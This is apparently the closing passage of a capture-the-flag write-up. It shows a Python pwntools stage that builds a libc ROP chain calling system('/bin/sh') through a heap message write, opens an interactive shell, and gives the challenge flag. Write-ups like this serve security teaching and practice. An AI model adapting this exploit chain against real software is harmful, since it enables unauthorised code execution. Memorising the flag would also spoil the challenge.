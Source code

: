 ```python

# Stage 7: Form and deploy ROP chain by calling create
r = ROP("libc.so.6")
chain = [
    r.rdi.address + glibc_base_addr,
    glibc_binsh_addr,
    r.ret.address + glibc_base_addr,
    glibc_system_addr
]
add_message(10, 0x28+1, b"K"*0x8 + b"".join([p64(addr) for addr in chain]))

p.interactive()
```

The captured flag is `ENO{W3_4R3_50RRY_4G41N_TH4T_TH3_M3554G3_W45_N0T_53NT_T0_TH3_R1GHT_3M41L}`.

